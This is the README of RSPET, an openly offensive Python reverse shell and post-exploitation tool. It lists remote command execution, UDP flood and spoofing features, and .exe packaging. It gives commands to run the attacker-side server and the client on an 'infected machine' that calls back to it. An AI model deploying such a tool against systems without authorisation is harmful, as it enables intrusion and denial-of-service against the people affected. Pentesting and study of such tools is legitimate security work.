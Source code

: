 # RSPET

![MIT Licence](https://img.shields.io/badge/Licence-MIT_Licence-red.svg?style=plastic)
[![Python 2.7](https://img.shields.io/badge/Python-2.7-yellow.svg?style=plastic)](https://www.python.org/)
[![Python 3.5](https://img.shields.io/badge/Python-3.5-yellow.svg?style=plastic)](https://www.python.org/)
![v1.0.0](https://img.shields.io/badge/Release-v0.4.0-orange.svg?style=plastic)
![Maintained](https://img.shields.io/badge/Maintained-Yes-green.svg?style=plastic)
[![Twitter](https://img.shields.io/badge/Twitter-@TheRSPET-blue.svg?style=plastic)](https://twitter.com/theRSPET)

> RSPET (Reverse Shell and Post Exploitation Tool) is a Python based reverse shell equipped with functionalities that assist in a post exploitation scenario.

DISCLAIMER: This software is provided for educational and PenTesting purposes and as a proof of concept. The developer(s) do not endorse, incite or in any other way support unauthorized computer access and networks disruption.

Current Version: `v1.0.0`

Follow: [@TheRSPET](https://twitter.com/TheRSPET) on Twitter for updates.

Documentation : [rspet.readthedocs.io](http://rspet.readthedocs.io)

## Features

* Remote Command Execution
* ~~Trafic masking (XORed instead of cleartext); for better results use port 443~~[1]
* TLS Encryption of the Server-Client communication
* Built-in File/Binary transfer (both ways) over the ~~masked~~ Encrypted traffic
* Built-in UDP Flooding tool
* Built-in UDP Spoofing tool[2]
* Multiple/All Hosts management; order File/Binary transfer and UDP Flood from Multiple/All connected Hosts
* Modular Code Design to allow easy customization
* Client update mechanism
* Client script is tested and is compatible with PyInstaller (can be made into .exe)[3]
* Full server side Plug-in support[4]
* Plug-in management, including the ability to Install(Download) and Dynamically Load Plug-ins.
* RESTful API for the Server Module

*[1]The idea for XORing as well as the skeleton for the client came from [primalsecurity.net](http://www.primalsecurity.net) so if you like this pack of scripts you'll probably love what they do

*[2]UDP Spoofing uses RAW_SOCKETS so in order to utilize it, the client has to run on an OS that supports RAW_SOCKETS (most Unix-Based) and with root privileges. Finally, most of the ISPs have implementations in place that will either drop or re-structure spoofed packets

*[3]Again check [primalsecurity.net's](http://www.primalsecurity.net) perfect blogpost about producing an .exe

*[4]Detailed documentation on creating Plug-ins available in [Online Documentation](http://rspet.readthedocs.io/en/latest/dev/)!

## Deployment:

* `rspet_server.py` is situated at the attacker's machine and running to accept connections
* `rspet_client.py` is situated in the infected machine(s) and will initiate the connection and wait for input.

## Installation

In order to install RSPET's Server Module:
```sh
pip install rspet-server
```
This will take care of all the core dependencies. In order install REST API's dependencies:
```sh
pip install rspet-server[rest]
```

## Execution:

* Server:
    ```sh
    rspet_server [-c #clients, --ip ipToBind, -p portToBind]
    ```
max_connections defaults to 5 if left blank

* RESTful API:
    ```sh
    rspet-server-rest [-c #clients, --ip ipToBind, -p portToBind]
    ```

* Client:
    ```sh
    python rspet_client.py <server_ip> [server_port]
    ```

Many changes can be made to fit individual needs.

As always if you have any suggestion, bug report or complain feel free to contact me.

## ASCIICAST

[![asciicast](https://asciinema.org/a/b94jozlbub4a3gir7oq6owlno.png)](https://asciinema.org/a/b94jozlbub4a3gir7oq6owlno?autoplay=1)

## Distros
> A list of Distros that contain RSPET

* [BlackArch Linux](http://blackarch.org/tools.html) (as of version 2016.04.28)
* [ArchStrike](https://archstrike.org/packages/search/rspet)

## As Featured in

* [seclist.us](http://seclist.us/rspet-reverse-shell-and-post-exploitation-tool.html)
* [sillycon.org](http://www.sillycon.org/stories/article/github-panagiksrspet-rspet-reverse-shell-and-post-exploitation-tool-is-a-python-based-reverse-shell-equipped-with-functionalities-that-assist-in-a-post-exploitation-scenario)
* [digitalmunition.me](https://www.digitalmunition.me/2016/04/rspet-reverse-shell-post-exploitation-tool/)
* [n0where.net](https://n0where.net/reverse-shell-post-exploitation-tool/)
* [kitploit.com](http://www.kitploit.com/2016/05/rspet-python-reverse-shell-and-post.html)
* [Hakin9 IT Security Magazine](https://www.facebook.com/hakin9mag/posts/1376368245710855)

## Todo

- [x] Add TLS encryption in order to:
  - [x] Replace XORing (and subsequently obfuscation with encryption)
  - [ ] Verify the "authenticity" of clients
    - [ ] A mechanism to issue and verify client certificates
    - [ ] A mechanism to recognize compromised client certs
- [x] Add a Plug-in system to client (a more compact one)
 - [x] Add remote installation of Plug-ins to client
 - [ ] Add installed Plug-ins report from client to server
 - [ ] Add check server side that a client plugin is present at the client before execution
- [ ] Add UDP Reflection functionality
- [ ] Provide more settings via config file
- [ ] Re-introduce multythreading when handling multiple hosts.
- [ ] Add support for command overridding in server plugins

## Styleguide

This project is following [Google's Python Styleguide](https://google.github.io/styleguide/pyguide.html).

## Contribution Opportunities

This project is open for contributors. If you have implemented a new feature, or maybe an improvement to the current code feel free to open a pull request. If you want to suggest a new feature open an issue. Additionally Testers are needed to run a few standard scenarios (and a few of their own maybe) to decrease the chance a bug slips into a new version. Should there be any interest about testing a `beta` branch will be created (where code to be tested will be uploaded) along with a list of scenarios. For a full guide on contribution opportunities and guides check out [the "Contributing" chapter on RSPET's Online Documentation](http://rspet.readthedocs.io/en/latest/contribute/)

## Author - Project Owner/Manager

[panagiks](https://twitter.com/panagiks)

## Co-Author

[dzervas](https://dzervas.gr) -- Code (Server OO-redesign, Server Plug-in system implementation, bug reports, bug fixes)

## Contributors

* [b3mb4m](https://github.com/b3mb4m) -- Code (tab.py and bug fixes)
* [junzy](https://github.com/junzy) -- Docstings (udp_spoof & udp_spoof_send)
* [gxskar](https://github.com/gxskar) -- Documentation (ASCIICAST of RSPET's basic execution)
* [n1zzo](https://github.com/n1zzo) -- Bug Report & Fix (PR [#31](https://github.com/panagiks/RSPET/pull/31))
* [tunnelsnake](https://github.com/tunnelsnake) -- EXE Client compilation
* [dPliakos](https://github.com/dPliakos) -- Logging & Bug fixes
* [KostasPakas17](https://github.com/KostasPakas17) -- Client profiles & Bug fixes

## License

MIT

## Free Cake

                                       i.
                                       .7.
                                      .. :v
                                     c:  .x
                                      i.::
                                        :
                                       ..i..
                                      #MMMMM
                                      QM  AM
                                      9M  zM
                                      6M  AM
                                      2M  2MX#MM@1.
                                      0M  tMMMMMMMMMM;
                                 .X#MMMM  ;MMMMMMMMMMMMv
                             cEMMMMMMMMMU7@MMMMMMMMMMMMM@
                       .n@MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM
                      MMMMMMMM@@#$BWWB#@@#$WWWQQQWWWWB#@MM.
                      MM                                ;M.
                      $M                                EM
                      WMO$@@@@@@@@@@@@@@@@@@@@@@@@@@@@#OMM
                      #M                                cM
                      QM                                tM
                      MM                                CMO
                   .MMMM                                oMMMt
                  1MO 6MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM iMM
                 .M1  BM                                VM  ,Mt
                 1M   @M .............................. WM   M6
                  MM  .A8OQWWWWWWWWWWWWWWWWWWWWWWWWWWW0Az2  #M
                   MM                                      MM.
                    @MMY                                vMME
                      UMMMbi                        i8MMMt
                         C@MMMMMbt;;i.......i;XQMMMMMMt
                              ;ZMMMMMMMMMMMMMMM@A;.

                    The Cake is a Lie. But it has been a Year :)

